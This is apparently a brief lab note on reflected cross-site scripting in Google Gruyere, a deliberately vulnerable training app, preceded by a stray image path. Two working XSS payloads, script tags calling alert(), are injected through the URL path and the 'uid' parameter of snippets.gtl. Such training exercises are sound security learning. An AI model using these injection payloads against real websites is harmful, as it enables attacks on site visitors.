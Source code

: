 ### REST Type URL Xss
https://google-gruyere.appspot.com/420730038953973886566460105278408636204/%3Cscript%3Ealert(%22Reflected_again!%22)%3C/script%3E

### UID Parameter in the URL

uid=<script>alert("ReflectedXSS!")</script>
https://google-gruyere.appspot.com/420730038953973886566460105278408636204/snippets.gtl?uid=%3Cscript%3Ealert(%22ReflectedXSS!%22)%3C/script%3E
